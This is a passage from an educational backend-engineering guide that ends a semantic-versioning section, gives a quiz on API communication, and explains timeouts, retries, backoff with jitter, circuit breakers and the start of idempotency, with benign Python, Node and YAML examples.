- **Kubernetes** releases follow `MAJOR.MINOR.PATCH` (like `v1.31.2`), and **Node.js** itself uses SemVer for its releases.
- **left-pad (2016):** when a tiny npm package was unpublished, builds around the world (including ones that depended on it indirectly through big projects like Babel) suddenly failed. It showed how fragile deep dependency trees are, and npm changed its unpublish rules afterward.
- **colors and faker (January 2022):** their maintainer deliberately published broken releases. Projects with loose ranges and no committed lockfile picked them up automatically. Lockfiles and `npm ci` protect you from exactly this.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Exact pins (`1.2.3`) | Critical packages, or when you need full control | You miss bug and security fixes unless a bot bumps them |
| Tilde (`~1.2.3`) | You trust patches but not new features | Still exposed to a bad patch release |
| Caret (`^1.2.3`) + lockfile | Default for most apps | Relies on authors following SemVer honestly |
| Caret without a lockfile | Almost never for apps | Different installs get different code, so "works on my machine" bugs |

**⚠️ Common mistakes:**
- **Shipping a breaking change in a MINOR or PATCH release** ("it's a tiny change"). Everyone using `^` gets broken automatically.
- **Staying on `0.x` forever**, which tells users "anything may break," and makes `^0.x` ranges behave more strictly than people expect.
- **Not committing the lockfile for an app, or running `npm install` in CI instead of `npm ci`**, so production quietly runs different versions than you tested.
- **Re-publishing or changing an already released version** instead of releasing a new number.
- **Treating SemVer as a guarantee.** It's a promise made by humans; tests, lockfiles, and gradual rollouts are your real safety net.

**🎯 Remember:** MAJOR = breaks things, MINOR = adds things, PATCH = fixes things. Use `^` ranges for flexibility and a committed lockfile for reproducibility.

**🔗 See also:** [#23 API Versioning](#23-api-versioning), [#18 gRPC, CI/CD Pipelines](#18-grpc)

---

### 🧠 Part 3 Quiz

**Q1. Your team is designing communication between 40 internal microservices written in Go, Java, and Python, plus a public API for partners. Where would you use gRPC, and why can't the browser-based dashboard call the gRPC services directly?**
<details><summary>Show answer</summary>

Use gRPC for the internal service-to-service calls: the `.proto` contract, generated clients in every language, compact protobuf messages, HTTP/2 multiplexing, streaming, and deadlines all pay off there. Keep REST/JSON (or GraphQL) for partners, who expect something simple and human-readable. Browsers can't speak native gRPC because JavaScript can't control HTTP/2 framing and trailers, so a dashboard would need gRPC-Web through a proxy like Envoy, or a REST gateway.

</details>

**Q2. Your Stripe webhook handler takes 20 seconds to process each event, and customers are sometimes getting their orders shipped twice. What is happening and how do you fix it?**
<details><summary>Show answer</summary>

The slow handler makes Stripe time out or fail to get a fast `2xx`, so Stripe retries and the same event is processed twice (webhooks are at-least-once). Fix it by verifying the signature, putting the event on a queue, and returning `200` immediately. Then process it in a worker that is idempotent: record each event ID (for example with a unique constraint) and skip IDs you've already handled.

</details>

**Q3. A live cricket score page uses short polling every 2 seconds, and the servers are overloaded. Users only watch; they never send data back. Which technique would you switch to and why: long polling, SSE, or WebSockets?**
<details><summary>Show answer</summary>

Server-Sent Events are the best fit: the updates are one-way (server → browser), SSE runs over plain HTTP, works with existing load balancers and HTTP/2, and reconnects automatically with `Last-Event-ID`. WebSockets would work but add two-way, stateful complexity you don't need. Long polling is a reasonable fallback where SSE is blocked, but it costs a full request per update.

</details>

**Q4. You run a chat app on three WebSocket servers behind a load balancer. User A (on server 1) sends a message to a room, but User B (on server 2) never receives it. Why, and how do you fix it?**
<details><summary>Show answer</summary>

Each server only knows about its own open sockets, so server 1 broadcasts only to its local clients. Add a pub/sub backbone such as Redis Pub/Sub (or NATS/Kafka). Every server publishes incoming messages to a channel and subscribes to it, then forwards what it receives to its own local sockets. Also add heartbeats and client reconnection with jitter for robustness.

</details>

**Q5. Your library is at version `3.4.2`. In the next release, you fix a bug and also remove a function you had deprecated. What is the new version number, and will apps that depend on `^3.4.2` get it automatically? How would you ship a similar breaking change in a public web API?**
<details><summary>Show answer</summary>

Removing a function is a breaking change, so the new version is `4.0.0` (the highest-impact change decides the bump). Apps using `^3.4.2` accept only `>=3.4.2 <4.0.0`, so they will not upgrade automatically, which is exactly the point. For a web API, keep the old behavior available, release the change as a new version (`/v2/` or a new dated version), announce it with `Deprecation` and `Sunset` headers, track who still uses the old version, and only then retire it.

</details>


## Part 4 — Resilience Patterns

Amazon's CTO, Werner Vogels, likes to say: **"Everything fails all the time."** Hard disks die, networks drop messages, and the service you depend on will be slow at the worst possible moment. In a modern backend, one user click can touch dozens of services, so the real danger is a **cascading failure**: one sick service makes its callers sick, which makes *their* callers sick, until the whole site falls over like a row of dominoes. This part teaches six small, battle-tested patterns that stop the dominoes. You will use them in almost every service you ever build.

```mermaid
flowchart LR
    Failure["Things fail:<br/>slow, down, overloaded"] --> T["25 Timeouts<br/>stop waiting"]
    T --> R["26 Retries<br/>try again"]
    R --> B["27 Backoff + Jitter<br/>retry politely"]
    B --> CB["28 Circuit Breakers<br/>stop calling the sick"]
    CB --> I["29 Idempotency<br/>make retries safe"]
    I --> BP["30 Backpressure<br/>don't drown in work"]
```

### 25. Timeouts

> **In one line:** A timeout is a rule that says "if the answer hasn't arrived in X seconds, stop waiting and move on."

**🏠 Real-life analogy:** You phone a pizza shop and get put on hold. With no limit, you could sit there for an hour while your guests starve. A sensible person decides: "I'll hold for 2 minutes, then I hang up and call another shop." A timeout is exactly that rule, written into your code.

**❓ What problem does it solve?** A request that is *waiting* still holds resources: a **thread** (a worker that handles one job at a time), a **connection** from a limited pool, and memory. If a **dependency** (a service you call) hangs and you have no timeout:
- Your workers get stuck one by one, waiting for answers that never come.
- When all workers are stuck, your service stops answering *anyone*, even requests that don't need the broken dependency.
- Now *your* callers wait on *you*, and their workers pile up too. That's a cascading failure.
- Many tools wait forever by default: Python's `requests` has no timeout unless you pass one, and Java's `HttpURLConnection` defaults to `0`, which means "infinite".

A **slow** dependency is often more dangerous than a **dead** one. Dead fails fast. Slow holds everything hostage.

**⚙️ How it works:**
1. **Connect timeout**: the maximum time to *open* the connection (the TCP handshake, the "hello, are you there?" step). Keep it short (a few hundred ms up to about 3 s). If a server can't even pick up the phone, it's probably down or unreachable.
2. **Read timeout** (also called *socket timeout*): the maximum time to wait for the *next piece* of data once connected. Careful: in most libraries, including Python `requests`, this is the gap *between* bytes, not the whole download. A server that dribbles one byte every 9 seconds never trips a 10-second read timeout.
3. **Total timeout** (also called *deadline* or *overall timeout*): a stopwatch for the *whole* operation (DNS lookup + connect + send + wait + download). This is the one that actually protects your users.
4. **Hidden waits need limits too**: getting a connection from a pool, a database query (`statement_timeout` in PostgreSQL), acquiring a lock.
5. **Choosing the value**: measure the dependency's latency percentiles. **p99** means "99% of calls are faster than this." Set the timeout a little above the p99 (or p99.9). Amazon's Builders' Library describes choosing an acceptable rate of "false timeouts" (for example 0.1%) and using the matching percentile (p99.9) of the downstream service. Too tight, and you kill healthy-but-slightly-slow calls (and maybe retry them, adding load). Too loose, and resources pile up.
6. **Timeout budgets & deadline propagation**: the user's request gets one overall budget (say 2 s) at the front door. Each hop subtracts the time it spent and passes the *remaining* time to the next service. If the remaining budget is already zero, don't start the work, because nobody is waiting for the answer anymore. gRPC has this built in: the client's deadline travels with the call (in the `grpc-timeout` header). Golden rule: **inner timeouts must be shorter than outer ones.**

*Without timeouts, one slow service takes down the whole site:*

```mermaid
flowchart LR
    Users["Users"] --> Web["Web App<br/>200 of 200 threads stuck"]
    Web -->|"waits forever"| Orders["Order Service<br/>connection pool empty"]
    Orders -->|"waits forever"| Pay["Payment Service<br/>slow: 60 s per call"]
    Web -.->|"new requests queue up"| Outage["Users see errors<br/>on EVERY page"]
```

*With a deadline budget, every hop knows how much time is left:*

```mermaid
sequenceDiagram
    participant U as User
    participant G as API Gateway
    participant A as Order Service
    participant B as Inventory Service
    U->>G: GET /checkout (budget 2000 ms)
    Note over G: spends 50 ms
    G->>A: call with 1950 ms left
    Note over A: spends 300 ms
    A->>B: call with 1650 ms left
    B-->>A: reply after 200 ms
    A-->>G: reply
    G-->>U: 200 OK in under 2 s
```

**💻 Example:** Python `requests` takes a `(connect, read)` tuple. Why `3.05`? The `requests` docs suggest a connect timeout slightly larger than a multiple of 3 seconds, because 3 s is the default TCP packet retransmission window.

```python
import requests

try:
    resp = requests.get(
        "https://api.example.com/orders/42",
        timeout=(3.05, 10),   # (connect timeout, read timeout) in seconds
    )
    resp.raise_for_status()
    print(resp.json())
except requests.exceptions.ConnectTimeout:
    print("Couldn't even connect in 3.05 s - server down or unreachable")
except requests.exceptions.ReadTimeout:
    print("Connected, but the server went silent for more than 10 s")
```

In Node (18+ has `fetch` built in), an `AbortController` gives you a true *total* timeout that also covers downloading the body:

```js
async function getOrder(id) {
  const controller = new AbortController();
  const timer = setTimeout(() => controller.abort(), 2000); // total budget: 2 s
  try {
    const res = await fetch(`https://api.example.com/orders/${id}`, {
      signal: controller.signal,
    });
    return await res.json();            // reading the body also counts toward the 2 s
  } catch (err) {
    if (err.name === "AbortError") throw new Error("Order service timed out");
    throw err;
  } finally {
    clearTimeout(timer);                // always clean up the timer
  }
}
// Shortcut in newer Node: fetch(url, { signal: AbortSignal.timeout(2000) })
```

Deadline propagation by hand: compute what's left, use it as the timeout, and tell the next hop (the header name here is our own invention; gRPC does this for you):

```python
import time
import requests

def call_with_budget(url, deadline):
    """deadline = the time.monotonic() value by which we must be done."""
    remaining = deadline - time.monotonic()
    if remaining <= 0:
        raise TimeoutError("Budget already used up - skip the call")
    return requests.get(
        url,
        timeout=(min(3.05, remaining), remaining),
        headers={"X-Request-Deadline-Ms": str(int(remaining * 1000))},
    )

deadline = time.monotonic() + 2.0                         # the whole user request gets 2 s
user = call_with_budget("https://users.internal/me", deadline)
cart = call_with_budget("https://cart.internal/items", deadline)  # gets whatever is left
```

**🌍 Real-world usage:**
- **gRPC** encourages a deadline on every call and lets servers pass the remaining deadline on to their own downstream calls.
- **Envoy** (the proxy behind Istio and many service meshes) uses a default route timeout of 15 s. In **nginx**, `proxy_connect_timeout` and `proxy_read_timeout` both default to 60 s.
- **PostgreSQL** `statement_timeout` kills runaway queries. It is off (`0`) by default, so you have to turn it on.
- **AWS Lambda** functions have a configurable timeout (max 15 minutes), after which the run is stopped.
- Amazon's free Builders' Library article *"Timeouts, retries, and backoff with jitter"* explains how Amazon picks these values.

**⚖️ Trade-offs:**

| Choice | When to use | Downside |
|---|---|---|
| No timeout | Never for network calls | Threads/connections pile up, leading to cascading failure |
| Short (just above p99) | Most service-to-service calls | A few false timeouts on slow-but-fine calls |
| Long (seconds to minutes) | Big uploads, reports, batch jobs | Holds resources, and users may give up first |
| Total deadline + propagation | Multi-hop request chains | Needs plumbing (headers/context) in every service |

**⚠️ Common mistakes:**
- Trusting library defaults, which are often "wait forever."
- Setting only a connect timeout and believing the whole call is protected.
- Making an inner timeout longer than the outer one. The caller has already given up, but the callee keeps working, so the effort is wasted.
- Setting timeouts so tight that normal p99 traffic times out, which triggers retry storms (#26).
- Forgetting non-HTTP waits: DB queries, connection pools, locks, DNS.

**🎯 Remember:** Every network call needs a timeout. Pick it from the dependency's p99, keep it inside the caller's remaining budget, and remember that slow is worse than down.

**🔗 See also:** [#26 Retries](#26-retries), [#28 Circuit Breakers](#28-circuit-breakers), [#30 Backpressure](#30-backpressure)

---

### 26. Retries

> **In one line:** When a request fails for a temporary reason, try again, but only for the right errors, only a few times, and only when it's safe.

**🏠 Real-life analogy:** You call a friend and hear a busy tone, so calling back in a minute is smart. But if a recording says "this number does not exist," calling 50 more times is pointless. And if everyone in the city redials at the exact same second after a power cut, the phone network collapses again. A good retry works like a polite caller: retry the busy tone, not the wrong number, and not all at once.

**❓ What problem does it solve?** Networks have lots of **transient** (temporary) errors. A packet gets lost, a server restarts during a deploy, a load balancer briefly has no healthy target, or a service is overloaded for a moment. One retry often turns a failure into a success the user never notices. But naive retries cause new problems:
- Retrying **permanent** errors (a bad password, a missing page) just wastes work.
- Retrying a **non-idempotent** action (like "charge card") can do it twice (#29).
- Retrying against a struggling service multiplies its load and keeps it down. This is a **retry storm**.

**⚙️ How it works:**
1. **Classify the error first:**

| Retry? | Examples | Why |
|---|---|---|
| Yes | Connection reset/refused, timeouts (see note), 502 Bad Gateway, 503 Service Unavailable, 504 Gateway Timeout | Probably temporary |
| Yes, after waiting | 429 Too Many Requests | You're being rate limited, so wait for `Retry-After` |
| No | 400 Bad Request, 401 Unauthorized, 403 Forbidden, 404 Not Found, 422 Unprocessable Entity | The same request will get the same answer |
| Carefully | 500 Internal Server Error | Could be a bug (permanent) or a blip, so retry once at most |

   Note: a timeout means "I don't know whether it happened." It's only safe to retry if the operation is idempotent.

2. **Only retry idempotent operations**: GET, PUT, DELETE, or a POST protected by an idempotency key (#29).
3. **Cap the attempts**: for example at most 3 total attempts, and always stay inside the overall deadline (#25).
4. **Wait between attempts** using exponential backoff with jitter (#27). Never hammer the server again immediately in a tight loop.
5. **Respect `Retry-After`**: when a server replies `Retry-After: 30` (seconds, or an HTTP date), wait at least that long.
6. **Retry at ONE layer**: if every layer retries, the attempts multiply. With 3 layers × 3 attempts each, one user click can become 3 × 3 × 3 = **27** calls to the bottom service, and this happens exactly when that service is already struggling.
7. **Use retry budgets**: limit retries as a share of *all* traffic, not just per request. The Google SRE book describes a per-request cap of 3 attempts plus a per-client budget that allows retries only while they make up less than 10% of requests. Envoy and Linkerd have retry budgets built in.

*Retry amplification: 3 layers × 3 attempts = 27× load on the database:*

```mermaid
flowchart LR
    App["Mobile App<br/>1 user click<br/>up to 3 attempts"] -->|"3 calls"| Gateway["API Gateway<br/>3 attempts each"]
    Gateway -->|"9 calls"| Orders["Order Service<br/>3 attempts each"]
    Orders -->|"27 calls"| DB[("Already-struggling<br/>Database")]
```

*Should I retry this failure?*

```mermaid
flowchart TD
    Failed["Request failed"] --> Kind{"What kind of error?"}
    Kind -->|"400, 401, 403, 404, 422"| NoRetry["Do NOT retry<br/>fix the request"]
    Kind -->|"429"| Wait["Wait for Retry-After<br/>then retry"]
    Kind -->|"timeout, 502, 503, 504, reset"| Idem{"Is the operation<br/>idempotent?"}
    Idem -->|"no"| UseKey["Do NOT blindly retry<br/>use an idempotency key"]
    Idem -->|"yes"| Budget{"Attempts and<br/>time budget left?"}
    Budget -->|"yes"| Retry["Retry after<br/>backoff + jitter"]
    Budget -->|"no"| GiveUp["Give up:<br/>error or fallback"]
```

**💻 Example:** Python's `requests` can retry automatically through urllib3's `Retry` helper. Note how it limits retries to idempotent methods and safe status codes:

```python
import requests
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry

retry = Retry(
    total=3,                                   # at most 3 retries
    backoff_factor=0.5,                        # waits grow exponentially between tries (#27)
    status_forcelist=[429, 502, 503, 504],     # retry ONLY these status codes
    allowed_methods=["GET", "PUT", "DELETE"],  # idempotent methods only - never POST
    respect_retry_after_header=True,           # obey the server's Retry-After
)
session = requests.Session()
session.mount("https://", HTTPAdapter(max_retries=retry))

resp = session.get("https://api.example.com/products/7", timeout=(3.05, 5))
```

What a polite "slow down" from a server looks like:

```http
HTTP/1.1 429 Too Many Requests
Retry-After: 30
Content-Type: application/json

{"error": "rate_limited", "message": "Too many requests, try again in 30 seconds"}
```

In a service mesh like Istio, you can configure retries once, in the platform, instead of in every app:

```yaml
apiVersion: networking.istio.io/v1beta1
kind: VirtualService
metadata:
  name: inventory
spec:
  hosts: ["inventory"]
  http:
  - route:
    - destination:
        host: inventory
    timeout: 3s                 # total budget for the call, including retries
    retries:
      attempts: 2               # at most 2 retries
      perTryTimeout: 1s         # each try gets 1 s
      retryOn: gateway-error,connect-failure,refused-stream
```

**🌍 Real-world usage:**
- **AWS SDKs** automatically retry throttling and transient errors with backoff and jitter. The "standard" retry mode defaults to 3 total attempts.
- **Stripe's** official client libraries can retry network errors for you and attach idempotency keys so the retries are safe.
- **GitHub's REST API** sends `Retry-After` when you hit secondary rate limits, and its docs tell you to wait that long before retrying.
- **gRPC** supports retry policies (`maxAttempts`, `retryableStatusCodes`). **Envoy/Istio** and **Linkerd** retry at the proxy layer, with retry budgets.
- Libraries: Python `tenacity` and urllib3 `Retry`, Node `p-retry`.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| No retries | Non-idempotent actions without keys, tiny time budgets | Users see every network blip |
| 2-3 retries with backoff + jitter | Most idempotent calls | Adds latency when things fail |
| Retries at every layer | Almost never | Multiplies load (27× with 3 layers) |
| Retry budget (for example at most 10% extra) | High-traffic services, service meshes | More setup, and some requests won't be retried during incidents |

**⚠️ Common mistakes:**
- Retrying 4xx errors like 400, 401 or 404. They will fail again.
- Retrying a payment `POST` without an idempotency key, which leads to double charges.
- Retrying instantly in a loop, with no delay and no max attempts.
- Letting every layer retry (browser, gateway, service, SDK, DB driver), which causes amplification.
- Ignoring `Retry-After` on 429/503 responses.

**🎯 Remember:** Retry transient errors, on idempotent operations, a few times, at one layer, with backoff + jitter, and stop when the budget runs out.

**🔗 See also:** [#25 Timeouts](#25-timeouts), [#27 Exponential Backoff (& Jitter)](#27-exponential-backoff--jitter), [#28 Circuit Breakers](#28-circuit-breakers), [#29 Idempotency](#29-idempotency)

---

### 27. Exponential Backoff (& Jitter)

> **In one line:** After each failure, wait about twice as long before trying again, and add some randomness so that everybody doesn't retry at the same moment.

**🏠 Real-life analogy:** On a sale day, the shop doors jam because of the crowd. If all 500 people push again at exactly the same second, the doors jam again, and again. If each person waits a bit longer after every failed push (**backoff**), and each picks a slightly *random* moment (**jitter**), people trickle in and everyone gets through.

**❓ What problem does it solve?**
- Fast, fixed retries (say, every 100 ms) keep hitting a struggling server and never give it time to recover.
- When an outage hits many clients at once (for example, a server restart disconnects 10,000 clients), they all fail together. With identical backoff, they also *retry* together, in big synchronized waves. This is the **thundering herd**: each wave knocks the server over again, even though the server could easily handle the same load if it were spread out.

**⚙️ How it works:**
1. **Exponential backoff:** `delay = min(cap, base * 2^attempt)`
   - `base` is the first wait (for example 100 ms).
   - `attempt` counts 0, 1, 2, … so the wait doubles every time.
   - `cap` is the maximum wait (for example 5 s). Without it, attempt 20 would wait 100 ms × 2^20, which is about 29 hours!
2. **Jitter** means adding randomness. The AWS Architecture Blog post *"Exponential Backoff and Jitter"* (Marc Brooker) compares these variants:
   - **No jitter:** `sleep = min(cap, base * 2^attempt)`. Everyone waits the same time, so the waves stay synchronized.
   - **Full jitter:** `sleep = random(0, min(cap, base * 2^attempt))`. Pick anywhere from zero up to the backoff value.
   - **Equal jitter:** `temp = min(cap, base * 2^attempt)`, then `sleep = temp/2 + random(0, temp/2)`. Keep half the wait and randomize the other half.
   - **Decorrelated jitter:** `sleep = min(cap, random(base, previous_sleep * 3))`.
3. In the post's simulations, adding jitter greatly reduced the total number of calls and the time to finish compared with plain exponential backoff, and equal jitter did slightly worse than full jitter. **Full jitter is the common default.**
4. Always combine backoff with a **max number of attempts** and the overall **deadline** (#25).

Delays with `base = 100 ms` and `cap = 5 s`:

| Attempt | No jitter | Full jitter (random in…) | Equal jitter (random in…) |
|---|---|---|---|
| 0 | 100 ms | 0–100 ms | 50–100 ms |
| 1 | 200 ms | 0–200 ms | 100–200 ms |
| 2 | 400 ms | 0–400 ms | 200–400 ms |
| 3 | 800 ms | 0–800 ms | 400–800 ms |
| 4 | 1.6 s | 0–1.6 s | 0.8–1.6 s |
| 5 | 3.2 s | 0–3.2 s | 1.6–3.2 s |
| 6 | 5 s (capped, would be 6.4 s) | 0–5 s | 2.5–5 s |

*Synchronized retries vs jittered retries:*

```mermaid
flowchart LR
    subgraph NoJitter["Without jitter: retries arrive in waves"]
        Blip1["t=0: server blips<br/>1000 clients fail"] --> Wave1["t=1s: 1000 retries at once"]
        Wave1 -->|"server overloaded again"| Wave2["t=2s: 1000 retries at once"]
        Wave2 -->|"overloaded again"| Wave3["t=4s: 1000 retries at once"]
    end
    subgraph WithJitter["With full jitter: retries spread out"]
        Blip2["t=0: server blips<br/>1000 clients fail"] --> Spread["t=0 to 1s: about<br/>1 retry per ms"]
        Spread -->|"server keeps up"| Recovered["Most clients succeed<br/>on the first retry"]
    end
```

**💻 Example:** A small, reusable retry helper with capped exponential backoff and full jitter:

```python
import random
import time

class TransientError(Exception):
    """Raise this for errors worth retrying: timeouts, 503, 429, resets."""

def retry_with_backoff(func, max_attempts=5, base=0.1, cap=5.0):
    for attempt in range(max_attempts):
        try:
            return func()
        except TransientError:
            if attempt == max_attempts - 1:
                raise                                  # out of attempts: give up
            backoff = min(cap, base * 2 ** attempt)    # exponential, but capped
            delay = random.uniform(0, backoff)         # FULL jitter: anywhere in [0, backoff]
            print(f"attempt {attempt + 1} failed, sleeping {delay:.2f}s")
            time.sleep(delay)

def equal_jitter_delay(attempt, base=0.1, cap=5.0):
    backoff = min(cap, base * 2 ** attempt)
    return backoff / 2 + random.uniform(0, backoff / 2)  # at least half, plus randomness

result = retry_with_backoff(lambda: fetch_price("AAPL"))  # fetch_price raises TransientError
```

**🌍 Real-world usage:**
- **AWS SDKs** use exponential backoff with jitter for their automatic retries. **Google Cloud** docs recommend "truncated exponential backoff" (backoff with a cap) plus random jitter.
- **gRPC's** connection-backoff spec starts at 1 s, multiplies by 1.6 each time, adds ±20% jitter, and caps at 120 s.
- **Kubernetes** restarts crashing containers with exponential backoff (10 s, 20 s, 40 s… capped at 5 minutes). That's the `CrashLoopBackOff` status you'll see.
- Classic **Ethernet** used "binary exponential backoff" to stop computers on a shared cable from talking over each other.
- Libraries: Python `tenacity` (`wait_random_exponential` is full-jitter style), Node `p-retry` and `exponential-backoff`.

**⚖️ Trade-offs:**

| Strategy | When to use | Downside |
|---|---|---|
| Fixed delay | Single client, simple scripts | Doesn't ease load, synchronized across clients |
| Exponential, no jitter | Almost never in multi-client systems | Thundering-herd waves |
| Full jitter | Default choice | Some retries happen almost instantly (delay near 0) |
| Equal jitter | When you want a guaranteed minimum wait | Slightly more total work than full jitter in AWS's simulation |
| Decorrelated jitter | Long-running clients with many retries | A bit harder to reason about |

**⚠️ Common mistakes:**
- No `cap`, so delays explode to hours.
- Backoff with no jitter, which keeps thousands of clients perfectly synchronized.
- Backoff with no max attempts or deadline, so the client retries "politely" forever.
- Backoff longer than the user's whole time budget, so the user has already left.
- Using backoff *instead of* fixing the error type: backing off on a 400 still never works (#26).

**🎯 Remember:** Backoff gives the server room to breathe, and jitter stops everyone from breathing in at once. Default to **capped exponential backoff with full jitter**.

**🔗 See also:** [#26 Retries](#26-retries), [#28 Circuit Breakers](#28-circuit-breakers), [#30 Backpressure](#30-backpressure)

---


### 28. Circuit Breakers

> **In one line:** A circuit breaker notices when a service keeps failing and stops calling it for a while, so you fail fast (and maybe show a backup answer) instead of waiting and piling up.

**🏠 Real-life analogy:** Your home has an electrical breaker box. When too much current flows (say, a short circuit), the breaker **trips** and cuts power to that circuit before the wires catch fire. Later you flip it back on to see if the problem is fixed. A software circuit breaker does the same: it trips after too many failures, protects your app (and gives the sick service a break), and later carefully tests whether things are healthy again.

**❓ What problem does it solve?** Timeouts (#25) cap how long *one* call waits, but if a dependency is completely down, *every* call still waits the full timeout before failing. At 1,000 requests per second with a 2 s timeout, about 2,000 requests are stuck waiting at any moment. Meanwhile retries (#26) keep hammering the dead service, so it never gets a quiet moment to recover. Without a breaker you get slow failures, wasted threads, and no recovery time. With a breaker, calls fail in microseconds and you can serve a **fallback** (a backup answer).

**⚙️ How it works:**
1. **Closed** (normal, like a closed electrical circuit where current flows): requests go through. The breaker counts successes and failures (errors *and* timeouts) over a **sliding window**, for example the last 20 calls or the last 60 seconds.
2. **Failure threshold**: when failures reach the limit (for example "50% of the last 20 calls" or "5 failures in a row"), the breaker **trips to Open**. Good breakers also require a **minimum number of calls** first, so "1 failure out of 1 call" doesn't trip it.
3. **Open**: every call fails *immediately*, with no network call at all, and goes to the fallback. The breaker stays open for an **open duration** (for example 30 s).
4. **Half-Open**: when the timer ends, the breaker lets a few **trial requests** through. If they succeed, it goes back to **Closed** and resets the counts. If one fails, it goes back to **Open** and restarts the timer.
5. **Slow calls can count as failures** too (Resilience4j has a "slow call rate" threshold).
6. Use **one breaker per dependency** (sometimes per host), so a broken recommendation service doesn't block calls to a healthy payment service.

**Fallbacks**, in other words what to do when the breaker is open:
- **Cached data**: the last known good value (for example yesterday's exchange rate, labeled "may be out of date").
- **Defaults**: an empty list, a generic "Popular right now" row instead of personalized picks.
- **Graceful degradation**: switch off a non-essential feature (hide the reviews section) while the core flow (checkout) keeps working.
- **Fail fast with a clear error** (`503`) when no fake answer is acceptable, for example a payment.

```mermaid
stateDiagram-v2
    [*] --> Closed
    Closed --> Closed : success or failures below threshold
    Closed --> Open : failure rate reaches threshold
    Open --> Open : calls rejected instantly and fallback used
    Open --> HalfOpen : open duration expires
    HalfOpen --> Closed : trial requests succeed
    HalfOpen --> Open : a trial request fails
```

*A product page using a breaker with a fallback:*

```mermaid
flowchart LR
    Page["Product Page"] --> Breaker{"Breaker state?"}
    Breaker -->|"Closed or trial"| Rec["Recommendation<br/>Service"]
    Breaker -->|"Open"| Fallback["Fallback:<br/>cached or popular items"]
    Rec -->|"success"| Personal["Show personalized row"]
    Rec -.->|"error or timeout<br/>counted by breaker"| Fallback
    Fallback --> Generic["Show generic row<br/>page still works"]
```

**💻 Example:** A minimal circuit breaker in Python (consecutive-failure version, about 30 lines). Real libraries add thread-safety, sliding windows and limits on trial calls.

```python
import time

class CircuitOpenError(Exception):
    pass

class CircuitBreaker:
    def __init__(self, failure_threshold=5, open_seconds=30):
        self.failure_threshold = failure_threshold  # failures in a row before tripping
        self.open_seconds = open_seconds            # how long to stay Open
        self.failures = 0
        self.state = "CLOSED"
        self.opened_at = 0.0

    def call(self, func, *args, fallback=None, **kwargs):
        if self.state == "OPEN":
            if time.monotonic() - self.opened_at >= self.open_seconds:
                self.state = "HALF_OPEN"            # timer done: allow a trial call
            elif fallback is not None:
                return fallback()                   # fail fast with a backup answer
            else:
                raise CircuitOpenError("circuit is open, not calling")
        try:
            result = func(*args, **kwargs)
        except Exception:
            self.failures += 1
            if self.state == "HALF_OPEN" or self.failures >= self.failure_threshold:
                self.state, self.opened_at = "OPEN", time.monotonic()  # trip!
            if fallback is not None:
                return fallback()
            raise
        self.failures, self.state = 0, "CLOSED"     # success resets everything
        return result

breaker = CircuitBreaker(failure_threshold=5, open_seconds=30)
recs = breaker.call(fetch_recommendations, user_id, fallback=lambda: POPULAR_ITEMS)
```

The same idea configured in Resilience4j (Java/Spring Boot `application.yml`):

```yaml
resilience4j:
  circuitbreaker:
    instances:
      recommendations:
        slidingWindowSize: 20                     # judge the last 20 calls
        minimumNumberOfCalls: 10                  # don't judge before 10 calls
        failureRateThreshold: 50                  # trip at 50% failures
        waitDurationInOpenState: 30s              # stay Open for 30 s
        permittedNumberOfCallsInHalfOpenState: 3  # 3 trial calls in Half-Open
```

**🌍 Real-world usage:**
- The pattern was popularized by Michael Nygard's book *Release It!* and Martin Fowler's "CircuitBreaker" article.
- **Netflix Hystrix** made circuit breakers famous for microservices. Netflix later put Hystrix into **maintenance mode** (no new features) and points users to **Resilience4j**, the go-to library for Java today.
- **Polly** is the standard resilience library for **.NET** (circuit breaker, retry, timeout, fallback).
- **Envoy / Istio** use **outlier detection**: if one host returns too many errors in a row (for example consecutive 5xx), it is temporarily *ejected* from the load-balancing pool. That's a per-host circuit breaker done by the proxy. Envoy's separate "circuit breaking" settings cap connections, pending requests and retries per cluster.
- Other libraries: `opossum` (Node), `pybreaker` (Python).

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Fails in microseconds instead of waiting for timeouts | More moving parts and settings to tune |
| Gives the failing service quiet time to recover | Too-sensitive thresholds trip on normal blips |
| Enables fallbacks and graceful degradation | Fallback data may be stale or less useful |
| Stops a failure from cascading upstream | Each app instance has its own breaker, so they see failures at different times |

**⚠️ Common mistakes:**
- Using one breaker for *everything*, so one bad endpoint or host blocks calls to healthy ones.
- Counting client errors (400, 404) as failures. Bad user input then trips the breaker for everyone.
- No timeouts on the calls. A hung call never "fails," so the breaker never sees it (#25).
- No minimum call count, so a breaker trips after 1 failure during quiet hours.
- No alerts on state changes. The breaker silently serves fallbacks for days and nobody notices.

**🎯 Remember:** Timeouts limit how long one call waits. Circuit breakers stop you from making calls that will almost certainly fail. The states are **Closed → Open → Half-Open → Closed**, with a fallback while open.

**🔗 See also:** [#25 Timeouts](#25-timeouts), [#26 Retries](#26-retries), [#27 Exponential Backoff (& Jitter)](#27-exponential-backoff--jitter), [#30 Backpressure](#30-backpressure)

---

### 29. Idempotency

> **In one line:** An action is **idempotent** if doing it once or doing it ten times leaves things in exactly the same state.

**🏠 Real-life analogy:** Think of an **elevator call button**. Press it once or press it ten times impatiently, and the elevator still comes once. Now think of a vending machine's "buy" button: press it twice and you may get (and pay for) two sodas. The goal of this topic: make your API's "Pay" button behave like the elevator button.

**❓ What problem does it solve?** Here's the double-charge story:
1. A customer taps **Pay $50**. The app sends `POST /charges`.
2. The server charges the card successfully…
3. …but the response gets lost (Wi-Fi drops, or the client hits its timeout).
4. The app can't tell whether the payment happened, so it retries (#26).
5. The server sees a brand-new request and charges **again**. The customer paid $100.

Timeouts and retries make duplicates *unavoidable* on a network. Idempotency is how the server recognizes "I've already done this" and makes retries safe.

**⚙️ How it works:**
1. **Two words to know** (defined in the HTTP standard, RFC 9110):
   - **Safe**: doesn't change anything on the server (read-only).
   - **Idempotent**: same effect on the server whether it runs once or many times. It's about the *state*, not the response: `DELETE /items/7` might return `200` the first time and `404` the second, but either way the item is gone.

| Method | Safe? | Idempotent? | Typical use |
|---|---|---|---|
| GET | Yes | Yes | Read data |
| HEAD | Yes | Yes | Read headers only |
| OPTIONS | Yes | Yes | Ask what's allowed |
| PUT | No | Yes | Replace a resource completely |
| DELETE | No | Yes | Remove a resource |
| POST | No | **No** | Create something / perform an action |
| PATCH | No | **No** (not guaranteed) | Partial update |

2. **Idempotency keys** (for actions that aren't naturally idempotent):
